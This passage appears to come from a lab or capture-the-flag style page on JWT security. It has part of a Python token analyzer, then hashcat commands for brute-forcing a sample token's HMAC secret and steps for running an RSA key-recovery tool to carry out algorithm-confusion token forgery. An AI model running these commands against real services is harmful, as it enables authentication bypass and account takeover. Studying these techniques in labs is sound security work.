 ```python
            self.suggestions.append("Token has no expiration - test for token reuse")

    def check_sensitive_data(self) -> None:
        sensitive_fields = ['password', 'secret', 'key', 'token', 'auth']
        for field in sensitive_fields:
            if any(field in key.lower() for key in self.payload.keys()):
                self.suggestions.append(f"Token contains potentially sensitive data in field containing '{field}'")

def print_token_info(analyzer: JWTAnalyzer) -> None:
    print("\n=== Token Information ===")
    print("\nHeader:")
    print(json.dumps(analyzer.header, indent=2))
    print("\nPayload:")
    print(json.dumps(analyzer.payload, indent=2))
    print("\n=== Security Analysis ===")
    for i, suggestion in enumerate(analyzer.suggestions, 1):
        print(f"{i}. {suggestion}")

def main():
    if len(sys.argv) != 2:
        print("Usage: python jwt_analyzer.py <jwt_token>")
        sys.exit(1)

    token = sys.argv[1]
    analyzer = JWTAnalyzer(token)
    analyzer.analyze()
    print_token_info(analyzer)

if __name__ == "__main__":
    main()
```

### Cracking the Secret

```bash
# Save JWT to a file
echo -n "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiaHRiLXN0ZG50IiwiaXNBZG1pbiI6ZmFsc2UsImV4cCI6MTcxMTIwNDYzN30.r_rYB0tvuiA2scNQrmzBaMAG2rkGdMu9cGMEEl3WTW0" > jwt.txt

# Run hashcat
hashcat -m 16500 jwt.txt /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt

# Show results
hashcat -m 16500 jwt.txt /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt --show
```

### Algorithm Confusion Attack

```bash
# Clone rsa_sign2n
git clone https://github.com/silentsignal/rsa_sign2n
cd rsa_sign2n/standalone/
docker build . -t sig2n

# Run the container
docker run -it sig2n /bin/bash

# Execute the script with two different JWTs
python3 jwt_forgery.py <JWT1> <JWT2>
```
